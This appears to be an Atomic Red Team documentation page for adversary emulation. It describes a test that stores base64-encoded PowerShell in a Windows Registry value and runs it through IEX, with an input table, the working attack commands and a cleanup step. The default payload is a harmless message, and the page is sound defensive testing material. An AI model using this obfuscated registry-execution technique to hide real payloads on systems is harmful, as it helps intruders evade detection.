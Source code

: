 

<br/>
<br/>

## Atomic Test #3 - Execute base64-encoded PowerShell from Windows Registry

auto_generated_guid: 450e7218-7915-4be4-8b9b-464a49eafcec

Stores base64-encoded PowerShell code in the Windows Registry and deobfuscates it for execution. This is used by numerous adversaries and malicious tools.

Upon successful execution, powershell will execute encoded command and read/write from the registry.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_key_storage | Windows Registry Key to store code | String | HKCU:Software&#92;Microsoft&#92;Windows&#92;CurrentVersion|
| powershell_command | PowerShell command to encode | String | Write-Host "Hey, Atomic!"|
| registry_entry_storage | Windows Registry entry to store code under key | String | Debug|


#### Attack Commands: Run with `powershell`! 


```powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```





<br/>
<br/>

## Atomic Test #4 - Execution from Compressed File
